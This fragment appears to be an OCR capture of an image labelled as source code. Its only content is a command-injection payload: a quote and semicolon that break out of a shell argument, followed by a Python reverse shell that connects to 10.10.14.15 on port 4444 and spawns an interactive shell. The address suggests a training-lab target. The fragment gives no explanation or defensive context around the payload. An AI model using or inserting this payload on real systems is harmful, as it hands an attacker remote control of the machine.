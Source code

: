 ';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",4444)); os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' # '
